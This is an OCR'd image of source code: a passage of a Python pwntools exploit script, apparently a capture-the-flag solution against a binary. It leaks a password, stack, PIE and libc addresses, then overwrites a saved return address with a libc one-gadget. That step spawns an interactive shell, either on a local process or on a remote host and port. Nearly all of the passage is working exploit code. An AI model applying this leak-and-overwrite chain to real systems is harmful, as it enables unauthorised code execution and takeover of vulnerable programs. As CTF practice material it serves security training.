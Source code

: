 ```python
    libc_leak = leak_pointer(p, prefix_bytes)
    libc_base = libc_leak - 0x7a81b
    assert((libc_base & 0xfff) == 0)
    return libc_base 

def leak_pie(p, password, input_buf):
    prefix_bytes = password + b'1' + input_buf[1:]
    pie_leak = leak_pointer(p, prefix_bytes)
    pie_base = pie_leak - 0x1060
    assert(pie_base & 0xfff == 0)
    return pie_base

def write_ra(p, password, input_buf, addr):
    ra_buf = b'A' * 0x40
    ra_buf += password + b'1' + input_buf[1:]
    ra_buf += b'E' * 0x8
    ra_buf += p64(addr)
    stack_overwrite(p, ra_buf)
    
def exploit(p):
    p.recvuntil(b'>> ')
    password = leak_password(p)
    log.info(f'password: {password}')
    
    stack_leak = leak_stack(p, password) 
    log.info(f'stack: {hex(stack_leak)}')
    
    # Allocate bytes, in order to fill the input buffer, preventing its null-bytes from stopping the 'strncmp' read
    input_buf = b'C' * 0x10
    fill_input(p, input_buf)
    
    pie_base = leak_pie(p, password, input_buf) 
    log.info(f'pie_base: {hex(pie_base)}')
   
    libc_base = leak_libc(p)
    log.info(f'libc_base: {hex(libc_base)}')
    
    one_gadget_addr = libc_base + 0xf0567 
    write_ra(p, password, input_buf, one_gadget_addr)
    
    # Before jumping to the one gadget, we must be logged in, 
    login(p, b'\x00')
    # Trigger exit
    p.sendline(b'2')

def main():
    if IS_DEBUG:
        p = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)
    else:
        if IS_REMOTE:
            p = remote(HOST, PORT)
        else:
            p = process(BINARY)

    exploit(p)
    

    log.info('Win')
    p.interactive()

if __name__ == '__main__':
    main()
```